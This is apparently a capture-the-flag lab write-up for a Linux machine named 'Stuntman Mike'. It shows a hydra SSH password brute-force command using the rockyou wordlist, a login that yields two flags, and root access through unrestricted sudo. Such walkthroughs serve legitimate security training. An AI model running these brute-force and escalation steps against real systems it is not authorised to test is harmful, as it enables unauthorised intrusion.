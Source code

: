## STUNTMAN MIKE

IP - 10.150.150.166
OS - LINUX
DIFFICULTY - EASY

### Nmap scan
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/daba7f0d-89a0-4c77-a3de-fde0fa6f2d51)

we have two open ports

let's start enumeration from port 22

bruteforcing ssh with hydra gives password for the user mike
```hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.150.150.166 ssh -t 4```
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1fc3d3b6-0184-44f7-b0fa-7f95d6569c2b)


let's login to the ssh server using the creds
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7f5a7a4d-92b9-486c-b22b-359e4e45b3ad)

we have both the FLAG35 & 36 respectively

### Privilege escalation

Running ```sudo -l``` shows that the user mike can run ALL comands with sudo

so, ```sudo su``` spawned us a root shell.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/9a4dbbcf-4997-420f-ad45-97ddb09423a9)



Thanks.

